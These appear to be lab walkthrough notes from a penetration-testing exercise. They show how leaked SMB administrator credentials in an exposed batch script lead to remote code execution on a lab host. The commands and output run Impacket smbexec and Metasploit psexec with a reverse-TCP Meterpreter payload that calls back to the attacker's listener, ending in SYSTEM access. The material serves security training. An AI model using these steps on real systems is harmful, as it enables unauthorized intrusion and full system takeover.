 ```
```

_Exploring a discovered HTTP service which reveals a batch script indicating potential SMB credentials._

`firefox http://demo.ine.local:4983/ &`:
```
@echo off net use "\\fileserver\C$" /user:Administrator abc_123321!@# if exist "\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" ( echo "Copying errors\..." copy "\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" C:\Users\local_admin\Logs\Host1\ del "\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" ) else ( echo "No errors!" ) net use "\\fileserver\C$" /delete ←
```

_Using smbexec to gain a shell on the `demo.ine.local` machine._

`smbexec.py 'Administrator:abc_123321!@#'@demo.ine.local`:
```
Impacket v0.9.25.dev1+20220131.200424.badf09d - Copyright 2021 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute ←
```

_Using Metasploit's `psexec` module (as an alternative approach) to obtain a Meterpreter session on `demo.ine.local`._

`msfconsole -q`

`search smb psexec`, `use windows/smb/psexec`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set RHOSTS demo.ine.local`, `set SMBUser Administrator`, `set SMBPass abc_123321!@#`, `exploit`:
```
[*] Started reverse TCP handler on 10.10.23.3:4444 
[*] 10.4.17.60:445 - Connecting to the server...
[*] 10.4.17.60:445 - Authenticating to 10.4.17.60:445 as user 'Administrator'...
[*] 10.4.17.60:445 - Selecting PowerShell target
[*] 10.4.17.60:445 - Executing the payload...
[+] 10.4.17.60:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.4.17.60
[*] Meterpreter session 1 opened (10.10.23.3:4444 -> 10.4.17.60:49328 ) at 2024-08-06 20:24:50 +0530 ←
```

<span style="color: #64b5f6;">**Target (victim 1: demo.ine.local) machine**</span>.

_Verifying that we have SYSTEM level access on the target machine._

`whoami`:
```
nt authority\system
```

_Checking the hostname of the compromised machine._

`hostname`:
```
attackdefense
```
